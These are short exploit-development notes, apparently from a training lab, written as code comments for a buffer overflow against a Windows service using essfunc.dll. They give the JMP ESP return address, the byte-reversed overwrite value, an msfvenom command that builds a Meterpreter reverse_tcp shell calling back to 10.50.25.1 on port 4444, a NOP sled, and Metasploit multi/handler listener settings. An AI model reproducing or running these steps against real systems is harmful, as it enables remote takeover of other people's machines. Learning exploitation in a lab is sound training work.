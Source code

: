 # confirm on debugger that the eip is 42424242 which is the "BBBB"

# stay on immunity debugger

# Run " !mona jmp -r esp -m "essfunc.dll" " in the bottom input space of the debugger

# click window>>logdata>> copy hex value for eip --- 0x625012A0
						       62 50 12 A0
# Reverse the indian "\xA0\x12\x50\x62"

# edit script, replace "BBBB" with "\xA0\x12\x50\x62"

# Close out of immunity bugger 

# create shellcode on lin-ops
# use the public ip for your lin-ops when 
# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.25.1 lport=4444 -b "\x00" -f python

# copy shellcode other than the first line

# paste in script below eip

# create nop sled in script
# buf += "\x90" * 10

# open a new terminal

# run commands 
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444

